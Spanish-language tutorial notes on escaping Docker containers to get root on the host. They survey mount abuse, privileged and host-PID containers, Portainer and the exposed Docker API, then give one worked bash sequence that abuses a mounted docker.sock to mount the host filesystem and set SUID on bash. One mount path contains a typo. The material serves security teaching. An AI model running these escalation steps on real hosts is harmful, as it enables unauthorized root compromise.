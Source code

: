 # Docker Breakout

Tags: #Linux #DockerBreackout #Escalada #Root #Privilegios 

En la clase actual, exploraremos diversas técnicas para abusar de **Docker** con el objetivo de elevar nuestros privilegios de usuario y escapar del contenedor hacia la máquina host. Examinaremos situaciones específicas y discutiremos las implicaciones de seguridad en cada caso.

Las técnicas que se tratarán en esta clase incluyen:

- Uso de monturas en el despliegue de contenedores para acceder a archivos privilegiados del sistema host. Analizaremos cómo un atacante puede aprovechar las monturas para manipular los archivos del host y comprometer la seguridad del sistema.
- Despliegue de contenedores con la compartición de procesos (**–pid=host**) y permisos privilegiados (**–privileged**). Veremos cómo inyectar un shellcode malicioso en un proceso en ejecución como root, lo que podría permitir al atacante tomar control del sistema.
- Uso de **Portainer** para administrar el despliegue de un contenedor. Discutiremos cómo, mediante el empleo de monturas, un atacante podría ingresar y manipular archivos privilegiados del sistema host y escapar del contenedor.
- Abuso de la **API** de **Docker** por el puerto **2375** para la creación de imágenes, despliegue de contenedores e inyección de comandos privilegiados en la máquina host. Examinaremos cómo un atacante puede explotar la API de Docker para comprometer la seguridad del host y lograr la ejecución de comandos con privilegios elevados.

Al finalizar esta clase, comprenderás las vulnerabilidades potenciales asociadas con Docker y aprenderás a identificar los posibles riesgos de seguridad en entornos basados en contenedores.


## Docker Breakout

Estando dentro de un contenedor Docker vamos a poder escalar privilegios 'escapando' del contenedor. 

### Forma 1

```bash 
❯ docker run --rm -dit -v /var/run/docker.sock:/var/rundocker.sock --name ubuntuServer ubuntu  # Nos crearemos un contenedor 1 de la imagen descargada anteriormente llamada 'ubuntuServer' y le diremos que queremos que el 'docker.sock' de la maquina victima nos lo copie en la misma ruta del contenedor
❯ docker exec -it ubuntuServer bash        # Ingresamos al contenedor 'ubuntuServer' por medio de una bash como root
	❯ apt install docker.io                    # Dentro del contenedor instalamos Docker
	❯ docker images                            # Miramos las imagenes  
	❯ docker ps                                # Miramos los contenedores 
	❯ docker run --rm -dit -v /:/mnt/root --name privesc ubuntu # Desplegaremos un contenedor con una montura de la raiz de la primer maquina y que la monte en el dir /mnt/root del contenedor 2, esto se logra porque nos etsamos comunicando con el unix socket file de la maquina host, la raiz del nuevo contenedor hara alucion a la raiz de la maquina actual (primer maquina) 
	❯ docker exec -it privesc bash        # Ingresamos al contenedor 'privesc' y ahi podremos darle permisos SUID a la bash, por lo que se vera reflejada en la maquina host
```
